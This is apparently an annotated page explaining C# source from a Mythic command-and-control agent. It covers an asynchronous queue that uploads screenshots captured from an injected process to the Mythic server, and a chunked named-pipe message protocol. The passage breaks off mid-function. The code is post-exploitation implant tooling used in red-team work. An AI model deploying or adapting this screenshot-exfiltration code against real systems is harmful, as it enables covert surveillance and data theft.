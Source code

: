 
#### 7. Asynchronous Data Handling
```csharp
private Action<object> _sendAction;
private Action<object> _putFilesAction;
private ConcurrentQueue<byte[]> _senderQueue = new ConcurrentQueue<byte[]>();
private ConcurrentQueue<byte[]> _putFilesQueue = new ConcurrentQueue<byte[]>();
private AutoResetEvent _senderEvent = new AutoResetEvent(false);
private AutoResetEvent _putFilesEvent = new AutoResetEvent(false);

_putFilesAction = (object p) =>
{
    while (!_cancellationToken.IsCancellationRequested && !_completed)
    {
        WaitHandle.WaitAny(new WaitHandle[] { _putFilesEvent, _cancellationToken.Token.WaitHandle, _complete });
        if (_putFilesQueue.TryDequeue(out byte[] screen))
        {
            ST.Task<bool> uploadTask = new ST.Task<bool>(() =>
            {
                return _agent.GetFileManager().PutFile(_cancellationToken.Token, _data.ID, 
                    screen, null, out string mythicFileId, true);
            });
            uploadTasks.Add(uploadTask);
            uploadTask.Start();
        }
    }
};
```
- Implements producer-consumer pattern for data processing
- Uses concurrent queues for thread-safe operations
- Handles sending commands to injected process
- Manages file uploads to Mythic asynchronously
- Supports cancellation through cancellation tokens

#### 8. Chunked Message Protocol
```csharp
private void OnAsyncMessageReceived(object sender, NamedPipeMessageArgs args)
{
    IPCChunkedData chunkedData = _jsonSerializer.Deserialize<IPCChunkedData>(
        Encoding.UTF8.GetString(args.Data.Data.Take(args.Data.DataLength).ToArray()));
    
    lock (MessageStore)
    {
        if (!MessageStore.ContainsKey(chunkedData.ID))
        {
            MessageStore[chunkedData.ID] = new ChunkedMessageStore<IPCChunkedData>();
            MessageStore[chunkedData.ID].MessageComplete += DeserializeToReceiverQueue;
        }
    }
    MessageStore[chunkedData.ID].AddMessage(chunkedData);
}

private void DeserializeToReceiverQueue(object sender, ChunkMessageEventArgs<IPCChunkedData> args)
{
    List<byte> data = new List<byte>();
    for (int i = 0; i < args.Chunks.Length; i++)
    {
        data.AddRange(Convert.FromBase64String(args.Chunks[i].Data));
    }
    
    IMythicMessage msg = _jsonSerializer.DeserializeIPCMessage(data.ToArray(), mt);
    if (msg.GetTypeCode() == MessageType.ScreenshotInformation)
    {
```
